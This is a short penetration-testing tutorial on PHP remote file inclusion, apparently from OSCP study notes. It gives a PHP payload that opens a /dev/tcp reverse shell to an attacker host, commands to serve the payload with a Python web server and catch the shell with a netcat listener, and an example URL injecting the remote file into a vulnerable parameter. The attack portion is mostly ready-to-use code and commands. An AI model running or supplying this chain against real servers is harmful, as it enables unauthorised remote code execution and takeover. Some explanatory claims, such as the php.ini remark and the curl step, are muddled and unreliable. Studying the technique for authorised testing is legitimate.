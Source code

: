 PHP Remote File Inclusion
***************************

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

**This method only works with PHP before version 5.3**

So you have an unsanitized parameter, like this:

.. code-block:: console

        <?php echo system("0<&196;exec 196<>/dev/tcp/<Attacker_IP>/<Attacker_Port>; sh <&196 >&196 2>&196"); ?>

This helps create a `reverse shell` to the attack server. **Make sure this is a txt file and not a PHP file**

You then would make a http server on the attacker machine

.. code-block:: console

   python3 -m http.server 80

Then you would download the file using curl

.. code-block:: console

   curl http://<Attacker_IP>/<created_txt_file_above>

You would then create a netcat listeer to make sure you retreive the reverse shell.

.. code-block:: console

   nc -lvnp 443
   
In the url you would type something similar in the following

.. code-block:: console

        https://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://<Attacker_IP>/<file_created.txt>?

You then would do a `bash -i` to see a normal looking bash shell.

https://sushant747.gitbooks.io/total-oscp-guide/content/remote_file_inclusion.html
